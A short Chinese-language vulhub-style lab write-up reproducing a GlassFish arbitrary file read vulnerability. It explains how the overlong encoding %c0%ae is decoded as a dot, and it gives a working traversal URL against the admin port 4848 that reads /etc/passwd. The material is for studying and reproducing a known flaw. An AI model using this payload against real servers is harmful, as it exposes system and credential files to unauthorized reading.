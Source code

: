 # GlassFish 任意文件读取漏洞

###### by ADummy

### 0x00利用路线

​			直接url执行payload

### 0x01漏洞介绍

​			java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。。

### 0x02漏洞复现

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

#### payload：

```
`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`
```

![GlassFish_任意文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/GlassFish_任意文件读取漏洞_1.jpg)







